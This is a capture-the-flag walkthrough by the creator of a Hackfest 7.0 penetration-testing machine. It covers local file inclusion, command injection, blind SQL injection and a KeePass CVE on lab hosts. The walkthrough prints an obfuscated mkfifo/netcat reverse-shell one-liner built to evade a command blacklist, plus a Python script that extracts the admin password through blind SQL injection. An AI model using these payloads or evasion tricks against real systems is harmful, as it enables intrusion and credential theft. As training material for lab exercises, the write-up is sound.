



I have contributed with Vulnerable Machine as a Penetration Testing challenge for Hackfest 7.0: 

Let's first start with a scan to discover open ports:

So let's go ahead and check the web app on port 80:

We see that there is something with downloading ``report`` from the server.
Also we go ahead and check the source code:

It says that every report has an id, so there must be parameters we could use. With ``report`` and ``id`` there are a few combinations we could take: ``report=&id=``, ``report_id=``, ``id_report=``. So we need to take our time to test all these parameters. But finally we get that the one we'll be using is ``report=&id=``. And since the author talked about downloading reports it might be vulnerable to LFI, which it is! But you will not find this payload on any cheat sheet :p you will need to use some logic:

And now we have our LFI.
Checking everything on the server we find nothing, no cleartext creds or ssh keys or any other thing. So let's check out the ``/etc/hosts`` file:

We have another subdomain ``privatedomainn.locke.challenges.hackfest.tn`` let's check it out:

We type any command and we find it is vulnerable to command injection:

But when we type some other commands it tells us to get away, not very polite huh? :

It must be blacklisted, so after a long time of trying to craft a payload we come up with this payload:
``m=m;a=$'\046';s=$'\057';f=f;p=p;h=h;t=t;c=c;r${m}   ${s}tm${p}${s}f;mk${f}ifo   ${s}tm${p}${s}f;ca${t}  ${s}tm${p}${s}f|s${h}   -i  2>${a}1|n${c}    192.168.1.20    6666    >${s}tm${p}${s}f``
We store characters in variables and then call them, that ways we bypass the blacklist on words, and we use the hex representation of symbols which is interpreted by bash and transformed to the symbol itself, you can try it yourself :D , and we get a callback from the server: 

Enuermating the machine we find nothing useful for privilege escalation, but checking the port the server is listening on we find an interesting one:

This is a filtered web application, so let's try and forward the port to our local machine so we can access it with ease (ps: you can exploit the vulnerability without doing a port forwarding, doing it from inside the machine):

And now we can access it from ``http://127.0.0.1:10003``:

Now let's try to test a bunch of different things:

Hmm interesting, it says that only the admin had the key, so we need to get whatever the admin has.

After a bunch of different payloads we figure that this is vulernable to Blind SQL Injection, so I wrote a small payload in python to exploit this vulnerability:
``python
#!/usr/bin/python
import requests
def string(start,end):
        str=''
        for i in range(start,end):
                str+=chr(i)
        return str
def passwd():
        url='http://127.0.0.1:10003/?username='
        test=string(48,127)
        username="admin' union distinct select 1,2,0x{hex} order by 3 desc%23&password=1"
        flag=""
        for _ in range(32):
                for i in test:
                        data = username.format(hex=(flag+i).encode('hex'))
                        result=requests.post(url+data)
                        if "admin" not in result.text:
                                flag=flag+chr(ord(i)-1)
                                print flag
                                break
if __name__ == '__main__':
        passwd()
``
And we run it:

And YES! We get a hit back with the password.
And if we look closer at the description it said that it must be all lowercase, so let's try to ssh to the machine using this password and using the user ``cryptic``:

And we get our first flag: 
``Hackfest{70de14735437fb48ccc1c85604983b5c}``
Enumerating the machine, we find that this user has some hidden files under his home directory:

I will not be going through this in detail, but this is the latest KeePass CVE released 3 weeks ago, yes we only bring you fresh meet ;) you can check out this repo and follow the steps to solve it: ``https://github.com/vdohney/keepass-password-dumper``
We get the password for the keepass database is: ``mallafouedyesahby``

